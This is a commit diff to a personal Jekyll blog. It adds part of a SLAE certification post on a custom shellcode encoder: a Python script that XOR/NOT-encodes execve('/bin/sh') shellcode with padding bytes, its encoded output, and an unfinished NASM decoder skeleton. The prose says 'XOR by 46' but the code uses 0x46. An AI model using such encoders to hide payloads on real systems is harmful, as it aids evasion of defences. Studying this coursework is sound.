

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-16-SLAE-Custom-Encoder.md, in a window 1280 px wide and 1400 px high, scrolled down 255 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-16-SLAE-Custom-Encoder.md

````diff
--- a/_posts/posts/2021-01-16-SLAE-Custom-Encoder.md
+++ b/_posts/posts/2021-01-16-SLAE-Custom-Encoder.md
@@ -22,3 +22,86 @@ As for the encoder itself, I have chosen to concanate the three main techniques
 + XORs every opcode of the shellcode by 46.
 + Performs a NOT operation on every opcode of the shellcode.
 + Inserts an additional 0x45 byte for every opcode.
+
+Having the knowledge of such course of action allows us to understand that the decoder should follow the exact same process but on reverse:
+
++ Remove the an additional 0x45 byte for every opcode and restore the encoded shellcode.
++ Perform a NOT operation on every opcode of the shellcode.
++ XOR every opcode of the shellcode by 46.
+
+#### The encoder
+
+```term
+#!/usr/bin/python
+
+shellcode = (
+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80"
+)
+
+encoded = ""
+encoded2 = ""
+
+print 'Encoded shellcode ...'
+
+for x in bytearray(shellcode) :
+
+                                y = ~x^0x46
+
+                                encoded += '\\x'
+                                encoded += '%02x' % (y & 0xFF)
+                                encoded += '\\x%02x' % 0x45
+
+                                encoded2 += '0x'
+                                encoded2 += '%02x,' % (y & 0xFF)
+                                encoded2 += '0x%02x,' % 0x45
+
+
+print '"' + encoded + '"'
+
+print encoded2
+
+print 'Len: %d' % len(bytearray(shellcode))
+```
+
+Let's encode the shellcode:
+
+```term
+whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ python custom_encoder.py
+Encoded shellcode ...
+"\x88\x45\x79\x45\xe9\x45\xd1\x45\x96\x45\x96\x45\xca\x45\xd1\x45\xd1\x45\x96\x45\xdb\x45\xd0\x45\xd7\x45\x30\x45\x5a\x45\xe9\x45\x30\x45\x5b\x45\x09\x45\xb2\x45\x74\x45\x39\x45"
+0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45,
+Len: 22
+whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$
+```
+
+Good, let's create the skeleton code:
+
+```term
+global _start
+
+section .text
+
+_start:
+
+      jmp short master               ; Jumps to master
+
+master:
+
+      call main                      ; Calls to main and pops shellcode into the stack
+
+      shellcode: db 0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45
+```
+
+
+#### EndGame
+
+
+
+### Code
+
+This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
+courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
+
+Student ID: SLAE-27812/PA-27812
+
+You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_4).
````
